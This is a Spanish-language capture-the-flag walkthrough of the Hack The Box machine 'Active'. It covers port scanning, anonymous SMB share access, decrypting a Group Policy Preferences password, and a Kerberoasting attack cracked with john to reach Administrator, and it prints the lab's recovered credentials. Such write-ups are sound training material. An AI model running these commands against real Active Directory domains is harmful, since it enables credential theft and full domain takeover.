

# Active

`Active` es una máquina de dificultad fácil a media, que presenta dos técnicas muy frecuentes para obtener privilegios dentro de un entorno de Active Directory.

<figure><figcaption></figcaption></figure>

## Reconnaissance

Realizaremos un escaneo sobre los puertos abiertos de la máquina Active.

```bash
nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.10.100 -oG allPorts
```

<figure><figcaption></figcaption></figure>

Lanzaremos unos scripts con **Nmap** para intenter ver vulnerabilidades y versiones sobre los puertos abiertos encontrados.


```bash
nmap -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,47001,49152,49153,49154,49155,49157,49158,49165,49166,49168 10.10.10.100 -oN targeted
```


<figure><figcaption></figcaption></figure>

Comprobaremos el nombre del domninio a través del siguiente comando

```bash
ldapsearch -x -H ldap://10.10.10.100 -s base | grep defaultNamingContext
```

<figure><figcaption></figcaption></figure>

Añadiremos en nuestro archivo **/etc/hosts** la dirección IP de Active y el dominio

```bash
catnp /etc/hosts | grep active.htb
```

<figure><figcaption></figcaption></figure>

## SMB Enumeration

Procederemos a la enumeración de SMB a través de **enum4linux** para ver que encontramos. Vemos que sin usuario podemos acceder a los recursos _IPC$_ y _Replication_.

```bash
enum4linux -a -u "" -p "" 10.10.10.100
```

<figure><figcaption></figcaption></figure>

Procederemos a acceder al recurso compartido "Replication" sin usuario, y nos descargaremos todo el contenido del recurso compartido en nuestro equipo local.

```
smbclient //10.10.10.100/Replication -N
```

<figure><figcaption></figcaption></figure>

## Abusing GPP Passwords

### Decrypting GPP Passwords - gpp-decrypt - impacket-GetGPPPassword

Comprobaremos que tenemos un archivo .xml que pertenece a una política y se trata de la información de un usuario del Active Directory y un campo "cpasswd" que está encriptado utilizando una clave conocida, que es parte de la configuración predeterminada de la Política de Preferencias de Grupo de Windows (GPP).&#x20;

Para desencriptarlo podemos hacer uso de **gpp-decrypt** o **impacket-Get-GPPPassword**.


```bash
catnp Groups.xml

impacket-Get-GPPPassword -xmlfile Groups.xml 'LOCAL'

gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```


<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## Flag user.txt

Comprobaremos a través de **netexec** de que podemos acceder con el usuario encontrado y su respectiva credencial. Comprobamos además de que tiene acceso al recurso compartido "Users".

```bash
netexec smb 10.10.10.100 -u SVC_TGS -p 'GPPstillStandingStrong2k18'  --shares
```

<figure><figcaption></figcaption></figure>

Procederemos a conectarnos al SMB con estas nuevas credenciales y nos descargaremos el archivo "user.txt" que es la primera flag.

```bash
smbclient //10.10.10.100/Users -U active.htb/SVC_TGS
```

<figure><figcaption></figcaption></figure>

Comprobaremos el contenido de la flag de user.txt

```
catnp user.txt
```

<figure><figcaption></figcaption></figure>

## Privilege Escalation

### Kerberoasting Attack (GetUsersSPNs.py)

"Procederemos a realizar un ataque de Kerberoasting en busca de servicios en el dominio active.htb que estén vinculados a cuentas de usuario. El objetivo es obtener tickets de servicio Kerberos (TGS) asociados a estos servicios, los cuales podrán ser crackeados offline para intentar revelar las contraseñas de las cuentas de servicio."

Obtenemos el hash Krb5 del usuario "Administrator".


```bash
impacket-GetUserSPNs -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request
```


<figure><figcaption></figcaption></figure>

Guardaremos el hash en un archivo de texto

```
catnp hash.txt
```

<figure><figcaption></figcaption></figure>

Procederemos a realizar ataque de fuerza bruta a través de un diccionario para desencriptar el hash encontrado. Finalmente hemos obtenido la contraseña.

```bash
john --format=krb5tgs hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

<figure><figcaption></figcaption></figure>

Comprobamos que podemos acceder con usuario "Administrator" y encontrar su correspondiente flag de root.txt

```bash
smbclient //10.10.10.100/Users -U active.htb/Administrator
```

<figure><figcaption></figcaption></figure>
